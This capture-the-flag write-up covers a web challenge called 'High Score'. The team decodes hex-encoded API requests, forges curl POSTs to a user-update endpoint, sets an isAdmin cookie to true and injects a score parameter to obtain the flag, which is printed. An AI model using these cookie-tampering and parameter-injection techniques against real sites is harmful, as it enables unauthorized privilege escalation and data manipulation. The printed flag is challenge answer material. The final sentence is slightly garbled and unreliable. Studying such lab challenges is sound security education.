 # Web Framework & API Vulnerabilities High Score

Visiting the site at **http://141.85.224.115:7001/**, we found a simple login and registration form. Inspecting the HTML, we discovered that once logged in, we are redirected to /account.php, which allows us to: View our score and user info Submit updated username/email via an AJAX POST request to /api-save-user.php

```js
var data = 'username='+username+'&email='+email;
data = a2hex(data);
$.ajax({
  type: "POST",
  url: "api-save-user.php",
  data: {q: data},
  success: function(data) {
    console.log(data);
  }
});
```

- The data is hex-encoded client-side before being sent.
- No CSRF tokens or validation observed.

We decoded and crafted our own **POST** requests to **api-save-user.php**:

```bash
echo -n 'username=dada&email=xenowave1@gmail.com' | xxd -p
```

Which returned: ***757365726e616d653d6461646126656d61696c3d78656e6f776176653140676d61696c2e636f6d***

```bash
curl -X POST http://141.85.224.115:7001/api-save-user.php \
  -d 'q=<HEX_STRING>' \
  -b "PHPSESSID=<session>"
```

Response: ["Success! Your info has been saved!"]

While inspecting cookies, we noticed a cookie: **isAdmin=false**.

We manually modified it to: **isAdmin=true**.

And reloaded **/account.php** — it looked visually identical, but we suspected this cookie may unlock some backend functions.

We then tried submitting extra parameters, like a score field:

```bash
username=test&email=test@gmail.com&score=1
```

Encoded and submitted:

```bash
echo -n 'username=test&email=test@gmail.com&score=1' | xxd -p
```

It was accepted by the API: **["Success! Your info has been saved!"]**
But the leaderboard did not reflect the updated score only when the cookie was true.. and we got the flag: **SSS{the_greatest_0f_them_all}**

